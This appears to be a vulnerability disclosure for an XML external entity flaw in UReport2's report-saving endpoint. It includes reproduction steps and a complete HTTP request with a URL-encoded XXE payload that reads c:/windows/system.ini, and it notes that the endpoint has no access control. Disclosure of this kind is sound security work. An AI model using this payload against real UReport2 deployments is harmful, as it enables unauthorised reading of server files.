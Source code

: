 Ureport2 XXE


The interface for saving reports does not disable external entity parsing when parsing xml data, resulting in the possibility of submitting malicious data for injection of xml external entities, reading arbitrary files in the operating system, and causing ssrf to detect intranet information by writing a large number of cyclically called entities Carry out dos attacks, etc.

The vulnerable code  at file：ureport2-core-2.2.9.jar   method：com.bstek.ureport.parser.ReportParser.parse
as the picture：
![image](https://user-images.githubusercontent.com/20945826/212481354-aba5deba-8e47-4a79-9e14-16850ff0ff16.png)

It is found that the program directly reads the xml information, and it is not configured to prohibit external entity references, resulting in xxe

Reproduce the local build environment:
Use idea to build a Springboot demo project and introduce ureport2：

![image](https://user-images.githubusercontent.com/20945826/212481453-6dd7ba4e-995c-4b12-88cb-01f6168c6e5e.png)

Exploiting the Vulnerability

save a report
![image](https://user-images.githubusercontent.com/20945826/212481525-11a0137f-ecf4-44ba-97ed-ef151aef9651.png)

the http message：
![image](https://user-images.githubusercontent.com/20945826/212481596-ad365ac0-47a3-4766-8b35-80f4045aabe5.png)

now add the xxe payload to post program 'content'
the xml content with payload：
![image](https://user-images.githubusercontent.com/20945826/212481879-cba0fc9b-b00f-42b8-9382-251f87989b8c.png)


    
submit data,the http message:
![image](https://user-images.githubusercontent.com/20945826/212482020-d7abe2b9-df61-4b59-a675-b80ca783df6f.png)

POST /ureport/designer/saveReportFile HTTP/1.1
Host: 192.168.66.39:8881
Content-Length: 3936
Accept: */*
Origin: http://192.168.66.39:8881
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.66.39:8881/ureport/designer
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=F988AAC7F0ED6210948EE2DB114A8A86
Connection: close

file=file%3Atets1.ureport.xml&content=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE+x+%5B+%3C!ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fsystem.ini%22%3E%5D%3E%3Cureport%3E%3Ccell+expand%3D%22None%22+name%3D%22A1%22+row%3D%221%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B1%22+row%3D%221%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C1%22+row%3D%221%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D1%22+row%3D%221%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22A2%22+row%3D%222%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B2%22+row%3D%222%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C2%22+row%3D%222%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D2%22+row%3D%222%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22A3%22+row%3D%223%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B3%22+row%3D%223%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C3%22+row%3D%223%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D3%22+row%3D%223%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%26xxe%3B%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Crow+row-number%3D%221%22+height%3D%2218%22%2F%3E%3Crow+row-number%3D%222%22+height%3D%2218%22%2F%3E%3Crow+row-number%3D%223%22+height%3D%2218%22%2F%3E%3Ccolumn+col-number%3D%221%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%222%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%223%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%224%22+width%3D%2280%22%2F%3E%3Cpaper+type%3D%22A4%22+left-margin%3D%2290%22+right-margin%3D%2290%22%0A++++top-margin%3D%2272%22+bottom-margin%3D%2272%22+paging-mode%3D%22fitpage%22+fixrows%3D%220%22%0A++++width%3D%22595%22+height%3D%22842%22+orientation%3D%22portrait%22+html-report-align%3D%22left%22+bg-image%3D%22%22+html-interval-refresh-value%3D%220%22+column-enabled%3D%22false%22%3E%3C%2Fpaper%3E%3C%2Fureport%3E

now open the report we can get the file content at c:/windows/system.ini
![image](https://user-images.githubusercontent.com/20945826/212482215-48d96b63-15b4-4b8a-a222-1f4b2e8c7998.png)

It should also be noted that，the function has no access control so it can be accessed by any user.

And for more, An XML External Entity (XXE) can also cause ssrf and dos
ssrf:
![image](https://user-images.githubusercontent.com/20945826/219539462-498cd482-6893-4328-881f-a3b69fc340a7.png)

